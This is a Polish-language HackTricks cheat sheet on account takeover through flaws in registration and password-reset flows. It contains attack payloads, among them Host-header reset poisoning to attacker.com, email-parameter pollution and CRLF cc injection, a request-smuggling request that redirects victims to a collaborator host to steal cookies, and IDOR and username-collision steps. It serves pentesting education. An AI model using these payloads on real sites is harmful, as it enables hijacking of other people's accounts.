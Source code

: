 # Luki w rejestracji i przejęciu

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegram**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się trikami hackingowymi, przesyłając PR do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}


## Przejęcie rejestracji

### Duplikat rejestracji

* Spróbuj wygenerować przy użyciu istniejącej nazwy użytkownika
* Sprawdź różne adresy e-mail:
* wielkie litery
* \+1@
* dodaj kropkę w adresie e-mail
* znaki specjalne w nazwie e-maila (%00, %09, %20)
* Dodaj czarne znaki po adresie e-mail: `test@test.com a`
* victim@gmail.com@attacker.com
* victim@attacker.com@gmail.com

### Enumeracja nazw użytkowników

Sprawdź, czy możesz ustalić, kiedy nazwa użytkownika została już zarejestrowana w aplikacji.

### Polityka haseł

Tworząc użytkownika, sprawdź politykę haseł (sprawdź, czy możesz używać słabych haseł).\
W takim przypadku możesz spróbować przeprowadzić atak brute force na dane logowania.

### SQL Injection

[**Sprawdź tę stronę** ](sql-injection/#insert-statement), aby dowiedzieć się, jak próbować przejęć kont lub wydobywać informacje za pomocą **SQL Injections** w formularzach rejestracyjnych.

### Przejęcia Oauth

{% content-ref url="oauth-to-account-takeover.md" %}
[oauth-to-account-takeover.md](oauth-to-account-takeover.md)
{% endcontent-ref %}

### Luki SAML

{% content-ref url="saml-attacks/" %}
[saml-attacks](saml-attacks/)
{% endcontent-ref %}

### Zmień e-mail

Po rejestracji spróbuj zmienić adres e-mail i sprawdź, czy ta zmiana jest poprawnie weryfikowana, czy można ją zmienić na dowolne adresy e-mail.

### Więcej kontroli

* Sprawdź, czy możesz używać **tymczasowych adresów e-mail**
* **Długie** **hasło** (>200) prowadzi do **DoS**
* **Sprawdź limity szybkości przy tworzeniu kont**
* Użyj username@**burp\_collab**.net i przeanalizuj **callback**

## **Przejęcie resetu hasła**

### Wyciekanie tokena resetu hasła przez referer <a href="#password-reset-token-leak-via-referrer" id="password-reset-token-leak-via-referrer"></a>

1. Poproś o reset hasła na swój adres e-mail
2. Kliknij w link do resetu hasła
3. Nie zmieniaj hasła
4. Kliknij na dowolne strony trzecie (np. Facebook, Twitter)
5. Przechwyć żądanie w proxy Burp Suite
6. Sprawdź, czy nagłówek referer wycieka token resetu hasła.

### Zatrucie resetu hasła <a href="#account-takeover-through-password-reset-poisoning" id="account-takeover-through-password-reset-poisoning"></a>

1. Przechwyć żądanie resetu hasła w Burp Suite
2. Dodaj lub edytuj następujące nagłówki w Burp Suite: `Host: attacker.com`, `X-Forwarded-Host: attacker.com`
3. Prześlij żądanie z zmodyfikowanym nagłówkiem\
`http POST https://example.com/reset.php HTTP/1.1 Accept: */* Content-Type: application/json Host: attacker.com`
4. Szukaj URL resetu hasła na podstawie _nagłówka host_ jak: `https://attacker.com/reset-password.php?token=TOKEN`

### Reset hasła przez parametr e-mail <a href="#password-reset-via-email-parameter" id="password-reset-via-email-parameter"></a>
```powershell
# parameter pollution
email=victim@mail.com&email=hacker@mail.com

# array of emails
{"email":["victim@mail.com","hacker@mail.com"]}

# carbon copy
email=victim@mail.com%0A%0Dcc:hacker@mail.com
email=victim@mail.com%0A%0Dbcc:hacker@mail.com

# separator
email=victim@mail.com,hacker@mail.com
email=victim@mail.com%20hacker@mail.com
email=victim@mail.com|hacker@mail.com
```
### IDOR na parametrach API <a href="#idor-on-api-parameters" id="idor-on-api-parameters"></a>

1. Atakujący musi zalogować się na swoje konto i przejść do funkcji **Zmień hasło**.
2. Uruchom Burp Suite i przechwyć żądanie.
3. Wyślij je do zakładki repeater i edytuj parametry: ID użytkownika/email\
`powershell POST /api/changepass [...] ("form": {"email":"victim@email.com","password":"securepwd"})`

### Słaby token resetowania hasła <a href="#weak-password-reset-token" id="weak-password-reset-token"></a>

Token resetowania hasła powinien być generowany losowo i być unikalny za każdym razem.\
Spróbuj ustalić, czy token wygasa, czy zawsze jest taki sam; w niektórych przypadkach algorytm generacji jest słaby i można go odgadnąć. Poniższe zmienne mogą być używane przez algorytm.

* Znacznik czasu
* ID użytkownika
* Email użytkownika
* Imię i nazwisko
* Data urodzenia
* Kryptografia
* Tylko liczby
* Mała sekwencja tokenów (znaki między \[A-Z,a-z,0-9])
* Ponowne użycie tokenu
* Data wygaśnięcia tokenu

### Wyciekanie tokenu resetowania hasła <a href="#leaking-password-reset-token" id="leaking-password-reset-token"></a>

1. Wywołaj żądanie resetowania hasła za pomocą API/UI dla konkretnego emaila, np: test@mail.com
2. Sprawdź odpowiedź serwera i poszukaj `resetToken`
3. Następnie użyj tokenu w URL, jak `https://example.com/v3/user/password/reset?resetToken=[THE_RESET_TOKEN]&email=[THE_MAIL]`

### Resetowanie hasła przez kolizję nazw użytkowników <a href="#password-reset-via-username-collision" id="password-reset-via-username-collision"></a>

1. Zarejestruj się w systemie z nazwą użytkownika identyczną do nazwy użytkownika ofiary, ale z wstawionymi białymi znakami przed i/lub po nazwie użytkownika. np: `"admin "`
2. Poproś o resetowanie hasła za pomocą swojego złośliwego nazwy użytkownika.
3. Użyj tokenu wysłanego na swój email i zresetuj hasło ofiary.
4. Zaloguj się na konto ofiary za pomocą nowego hasła.

Platforma CTFd była podatna na ten atak.\
Zobacz: [CVE-2020-7245](https://nvd.nist.gov/vuln/detail/CVE-2020-7245)

### Przejęcie konta przez Cross Site Scripting <a href="#account-takeover-via-cross-site-scripting" id="account-takeover-via-cross-site-scripting"></a>

1. Znajdź XSS w aplikacji lub subdomenie, jeśli ciasteczka są ograniczone do domeny nadrzędnej: `*.domain.com`
2. Wycieknij aktualne **ciasteczko sesji**
3. Uwierzytelnij się jako użytkownik, używając ciasteczka

### Przejęcie konta przez HTTP Request Smuggling <a href="#account-takeover-via-http-request-smuggling" id="account-takeover-via-http-request-smuggling"></a>

1\. Użyj **smuggler** do wykrycia typu HTTP Request Smuggling (CL, TE, CL.TE)\
`powershell git clone https://github.com/defparam/smuggler.git cd smuggler python3 smuggler.py -h`\
2\. Stwórz żądanie, które nadpisze `POST / HTTP/1.1` następującymi danymi:\
`GET http://something.burpcollaborator.net HTTP/1.1 X:` z celem otwartego przekierowania ofiar do burpcollab i kradzieży ich ciasteczek\
3\. Ostateczne żądanie może wyglądać następująco
```
GET / HTTP/1.1
Transfer-Encoding: chunked
Host: something.com
User-Agent: Smuggler/v1.0
Content-Length: 83
0

GET http://something.burpcollaborator.net  HTTP/1.1
X: X
```
Hackerone raporty wykorzystujące ten błąd\
\* [https://hackerone.com/reports/737140](https://hackerone.com/reports/737140)\
\* [https://hackerone.com/reports/771666](https://hackerone.com/reports/771666)

### Przejęcie konta za pomocą CSRF <a href="#account-takeover-via-csrf" id="account-takeover-via-csrf"></a>

1. Stwórz ładunek dla CSRF, np: „formularz HTML z automatycznym przesyłaniem do zmiany hasła”
2. Wyślij ładunek

### Przejęcie konta za pomocą JWT <a href="#account-takeover-via-jwt" id="account-takeover-via-jwt"></a>

JSON Web Token może być używany do uwierzytelniania użytkownika.

* Edytuj JWT z innym identyfikatorem użytkownika / adresem e-mail
* Sprawdź słabą sygnaturę JWT

{% content-ref url="hacking-jwt-json-web-tokens.md" %}
[hacking-jwt-json-web-tokens.md](hacking-jwt-json-web-tokens.md)
{% endcontent-ref %}

## Odniesienia

* [https://salmonsec.com/cheatsheet/account\_takeover](https://salmonsec.com/cheatsheet/account\_takeover)


{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Dziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów github.

</details>
{% endhint %}
